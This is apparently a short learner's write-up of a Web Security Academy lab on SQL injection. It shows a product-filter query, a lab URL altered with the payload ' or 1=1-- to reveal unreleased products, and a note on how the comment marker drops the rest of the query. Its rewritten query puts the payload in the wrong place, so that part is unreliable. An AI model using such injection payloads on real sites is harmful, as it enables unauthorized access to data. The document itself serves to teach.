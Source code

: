 
We've got the next SQL Query

SELECT * FROM products WHERE category = 'Gifts' AND released = 1


We need to release the application to display one or more unreleased products

Original Link
https://0a850035038ecb8880f54e6f00550058.web-security-academy.net/filter?category=Corporate+gifts

Modified Link with the SQL Injection

https://0a850035038ecb8880f54e6f00550058.web-security-academy.net/filter?category=Corporate+gifts ' or 1=1-- ' 

So now:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 'or 1=1 --'

The -- comments the rest of the query so it will ignore the rest because it could be something like:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 AND permission= Admin





